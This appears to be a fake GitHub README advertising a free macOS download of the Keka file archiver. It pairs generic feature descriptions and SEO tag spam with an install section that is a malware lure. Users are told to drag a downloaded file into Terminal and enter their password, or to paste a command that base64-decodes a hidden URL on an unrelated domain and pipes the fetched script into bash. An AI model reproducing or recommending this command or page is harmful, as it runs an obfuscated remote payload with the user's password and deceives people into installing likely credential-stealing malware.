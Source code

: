 # Keka — Free Download for macOS 🥳
![logo](https://www.keka.io/img/Keka-Square-512x512.png)


Keka is a powerful, open-source file archiver for macOS, designed to compress, extract, and manage files with ease. Follow the instructions below to download and install Keka on your Mac for free.

[![Download Keka](https://img.shields.io/badge/Download-Keka-1E90FF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/kekamac)

If you encounter issues downloading via the button above, follow the step-by-step terminal instructions below.

## 📦 How to Install Keka For macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with Keka

- 🗜️ **Powerful Compression**: Create compressed files in multiple formats like 7z, Zip, Tar, and more with high efficiency.
- 🔄 **Effortless Extraction**: Extract files from various archive formats, including RAR, ISO, and others, with a single click.
- 🔒 **Secure File Handling**: Protect your archives with AES-256 encryption for maximum security.
- ⚡ **Fast Performance**: Optimized for macOS, Keka ensures quick compression and extraction, even for large files.
- 🖥️ **User-Friendly Interface**: Enjoy a sleek, macOS-native design that integrates seamlessly with your workflow.
- 🌐 **Open-Source Freedom**: Keka is free and open-source, ensuring transparency and community-driven updates.

## About Keka

Keka is a highly versatile file archiver tailored for macOS users, offering a seamless way to compress and extract files. Whether you're managing large datasets, sharing files, or organizing backups, Keka provides a robust solution. Its support for multiple archive formats, including 7z, Zip, Tar, Gzip, Bzip2, DMG, and ISO, makes it a go-to tool for professionals and casual users alike. The software is designed to handle even the most complex archiving tasks with ease, ensuring that your files are compressed efficiently without compromising quality.

One of Keka’s standout features is its intuitive macOS-native interface, which blends perfectly with the operating system’s aesthetic. Users can drag and drop files directly into Keka or use the context menu in Finder for quick access to compression and extraction options. This seamless integration enhances productivity, allowing you to manage archives without disrupting your workflow. Additionally, Keka’s open-source nature ensures that it is regularly updated by a dedicated community, keeping it reliable and secure.

Security is a top priority for Keka. With support for AES-256 encryption, you can password-protect your archives to safeguard sensitive data. This makes Keka an excellent choice for users who need to share files securely or store confidential information. Unlike other archivers, Keka balances advanced security features with simplicity, ensuring that even beginners can use it effectively without a steep learning curve.

Keka’s performance is optimized for macOS, leveraging the system’s architecture to deliver fast compression and extraction speeds. Whether you’re working with large media files or small documents, Keka processes them quickly, saving you time. Its ability to split archives into smaller parts also makes it ideal for transferring large files over email or cloud services, ensuring compatibility with size restrictions.

### Why Choose Keka?

Keka stands out among other file archivers due to its combination of power, simplicity, and macOS integration. Its open-source model means you get a free, transparent tool that’s constantly improving. With support for a wide range of formats, top-tier encryption, and a user-friendly interface, Keka is the ultimate archiving solution for macOS users looking for efficiency and reliability.

## 🖼 Preview

![Keka Main Interface](https://haxmac.cc/wp-content/uploads/2021/09/Keka-macOS.jpg)  
*Keka’s clean and intuitive macOS interface*

![Compression Options](https://haxmac.cc/wp-content/uploads/2021/09/Kaka.jpg)  
*Selecting compression formats in Keka*

## 🔍 Tags

keka download, keka free mac, keka archiver, keka macos, keka install guide, keka for mac, keka free download, keka download free, free keka download, keka for mac, keka for free, keka mac os free, download keka, download free keka
